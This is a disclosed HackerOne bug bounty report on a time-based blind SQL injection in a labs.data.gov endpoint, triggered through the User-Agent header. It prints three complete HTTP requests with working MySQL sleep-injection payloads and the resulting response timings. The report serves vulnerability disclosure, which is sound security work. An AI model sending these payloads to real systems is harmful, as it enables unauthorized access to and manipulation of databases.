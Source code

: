 # SQL injection in https://labs.data.gov/dashboard/datagov/csv_to_json via User-agent 

## Report Details
- **Report ID**: 297478
- **URL**: https://hackerone.com/reports/297478
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-12-13T11:26:28.370Z
- **Disclosed**: 2019-03-22T16:02:56.793Z

## Reporter
- **Username**: harisec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
I've identified an SQL injection vulnerability in the website  **labs.data.gov** that affects the endpoint `/dashboard/datagov/csv_to_json` and can be exploited via the **User-Agent** HTTP header.

I didn't extracted any data from the database, I've confirmed the vulnerability using **sleep** SQL queries with various arithmetic operations. The **sleep** command combined with the arithmetic operations will cause the server to sleep for various amounts of time depending on the result of the arithmetic operation.

For example, setting the value `Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'` to the `User-Agent` header will cause the server to sleep for **25 (5*5)** seconds.

To reproduce, send the following HTTPS request:

```
GET /dashboard/datagov/csv_to_json HTTP/1.1
Referer: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
X-Forwarded-For: 1
X-Requested-With: XMLHttpRequest
Host: labs.data.gov
Connection: Keep-alive
Accept-Encoding: gzip,deflate
Accept: */*

```

The server will respond after **25 (5*5)** seconds - same as the value of the `User-Agent:` header.

Now, let's cause the server to respond immediately. We will send the value **sleep(5*5*0)** that is equivalent with **0**.

```
GET /dashboard/datagov/csv_to_json HTTP/1.1
Referer: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(5*5*0),0))OR'
X-Forwarded-For: 1
X-Requested-With: XMLHttpRequest
Host: labs.data.gov
Connection: Keep-alive
Accept-Encoding: gzip,deflate
Accept: */*

```
The server responded immediately as **5*5*0 = 0**.

Let's confirm it with another request:

```
GET /dashboard/datagov/csv_to_json HTTP/1.1
Referer: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87'XOR(if(now()=sysdate(),sleep(6*6-30),0))OR'
X-Forwarded-For: 1
X-Requested-With: XMLHttpRequest
Host: labs.data.gov
Connection: Keep-alive
Accept-Encoding: gzip,deflate
Accept: */*


```

This time the payload contains **6*6-30** that is equal with **6**. The server responded after **6** seconds.

These are just a few of the SQL queries with various arithmetic operations that I've tried to confirm this issue.

## Impact

An attacker can manipulate the SQL statements that are sent to the MySQL database and inject malicious SQL statements. The attacker is able to change the logic of SQL statements executed against the database.

## Attachments
- sqli-labs-data-gov-ua-25sec.png
- sqli-labs-data-gov-ua-9sec.png

